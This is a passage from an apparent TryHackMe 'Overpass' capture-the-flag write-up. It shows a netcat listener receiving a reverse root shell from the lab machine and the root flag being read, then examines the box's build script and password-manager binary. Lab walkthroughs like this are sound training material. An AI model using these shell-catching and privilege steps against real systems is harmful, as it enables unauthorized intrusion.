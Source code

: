 ```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Overpass]
└──╼ $nc -nvlp 8080
listening on [any] 8080 ...
connect to [10.8.21.217] from (UNKNOWN) [10.10.70.101] 39612
bash: cannot set terminal process group (21767): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# 
```

I have root! Now to grab the flag.

```highlight
root@overpass-prod:~# cat root.txt
cat root.txt
thm{7f336f8c359{{REDACTED}}
root@overpass-prod:~# 
```

### The hidden code

During our enumeration we were able to download a Linux binary and the source code of the password manager however they were not used to root on the machine. Lets take a look at them now. 

```sh
┌─[daz@parrot]─[~/Documents/TryHackMe/Overpass]
└──╼ $cat buildscript.sh 
GOOS=linux /usr/local/go/bin/go build -o ~/builds/overpassLinux ~/src/overpass.go
GOOS=windows /usr/local/go/bin/go build -o ~/builds/overpassWindows.exe ~/src/overpass.go
GOOS=darwin /usr/local/go/bin/go build -o ~/builds/overpassMacOS ~/src/overpass.go
GOOS=freebsd /usr/local/go/bin/go build -o ~/builds/overpassFreeBSD ~/src/overpass.go
GOOS=openbsd /usr/local/go/bin/go build -o ~/builds/overpassOpenBSD ~/src/overpass.go
echo "$(date -R) Builds completed" >> /root/buildStatus
```

The build script.sh is a very simple bash script to build the binaries. So I next ran the Linux binary to see what the binary did.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Overpass]    
└──╼ $chmod +x overpassLinux                       
┌─[daz@parrot]─[~/Documents/TryHackMe/Overpass]    
└──╼ $./overpassLinux 
open /home/daz/.overpass: no such file or directory
Failed to open or read file
Continuing with new password file.
Welcome to Overpass
Options:
1       Retrieve Password For Service
2       Set or Update Password For Service
3       Delete Password For Service
4       Retrieve All Passwords
5       Exit
Choose an option:       4
┌─[daz@parrot]─[~/Documents/TryHackMe/Overpass]
└──╼ $./overpassLinux 
open /home/daz/.overpass: no such file or directory
Failed to open or read file
Continuing with new password file.
Welcome to Overpass
Options:
1       Retrieve Password For Service
2       Set or Update Password For Service
3       Delete Password For Service
4       Retrieve All Passwords
5       Exit
Choose an option:       2
```
